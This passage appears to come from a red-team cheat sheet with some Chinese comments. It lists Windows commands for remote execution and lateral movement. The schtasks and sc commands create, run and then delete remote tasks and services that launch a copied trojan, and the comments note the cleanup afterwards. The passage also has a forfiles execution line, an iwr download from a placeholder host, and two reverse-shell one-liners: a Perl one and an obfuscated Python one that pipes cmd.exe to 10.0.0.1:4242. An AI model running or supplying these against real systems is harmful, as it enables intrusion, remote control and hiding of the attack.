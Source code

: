 ### schtasks

```bash
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
/sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host                          # 清除 schtasks
```

### SC

```bash
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    # 新建服务,指向拷贝的木马路径
sc \\host start foobar                                          # 启动建立的服务
sc \\host delete foobar                                         # 完事后删除服务
```

### forfiles

```bash
forfiles /c shell.exe
```

### iwr

```
iwr -useb http://xxx.com/test.txt
```

---

## Other

### perl

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### python

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
